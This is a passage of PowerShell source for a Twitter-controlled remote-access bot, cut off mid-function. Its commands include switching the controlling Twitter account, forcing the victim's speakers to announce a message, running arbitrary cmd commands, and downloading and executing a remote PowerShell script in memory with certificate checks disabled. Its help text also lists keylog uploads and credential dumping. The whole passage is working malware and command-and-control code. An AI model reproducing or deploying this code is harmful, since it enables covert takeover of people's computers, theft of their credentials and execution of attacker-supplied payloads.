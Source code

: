             !upload|c:\demo\keylog.txt
        !credential
            !credential|c:\temp\creds.txt

#>
    Function Invoke-Bot {
        [CmdletBinding()] Param(
        )

        #Build helper Functions
        
        #Implements the !change command which changes the twitter C2 username
        #Ex: !change|newevilPSbot
        Function ChangeCommand {
            [string] $NewC2Username = $LatestTweet.split('|')[1]
            Write-Verbose "Changing C2 from $TwitterUserName to $NewC2Username"
            $Global:TwitterUserName = $NewC2Username
        }
            
        #Implements the !speak command which does text-to-speech
        #Ex: !speak|You have been hacked!
        Function SpeakCommand {
            [string] $AudioMessage = $LatestTweet.split('|')[1]
            
            #Raise the volume to make sure they hear us
            1..50 | Foreach {
                    $WscriptObject = New-Object -com wscript.shell
                    $WscriptObject.SendKeys([char]175)
                }
            
            #Create a COM object to pass the message to
            $ComVoiceObject = New-Object -ComObject SAPI.SpVoice
            Write-Verbose "I should be speaking now"
            [void] $ComVoiceObject.Speak($AudioMessage)
        }
            
        #Implements the !run command which executes arbitrary commands
        #Ex: !run|net localgroup adminstrators > c:\windows\temp\ad.txt
        Function RunCommand {
            [string] $Command = $LatestTweet.Substring(5)
            #Using Substring instead of split in case their is a "|" in the command specified
            [string] $CmdPath = "$env:windir\System32\cmd.exe"
            [string] $CmdString = "$CmdPath" + " /C " + "$Command"
            #Chose IEX cause it handles arguments as a string but will wait until cmd completes
            Write-Verbose "I am running: $CmdString"
            Invoke-Expression $CmdString
        }

        #Implements the !downexec command which downloads ps script and executes without writing to disk
        #Ex: !downexec|http://pastebinlikesite.com/moreevilpowershellscript
        Function downexecCommand {
            [string] $downloadURL = $LatestTweet.split('|')[1]
                                           
            if ($downloadURL.Substring(0,5) -ceq "https") {
                # Ignore invalid/self-signed SSL certificates
                [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $True }
            }
                               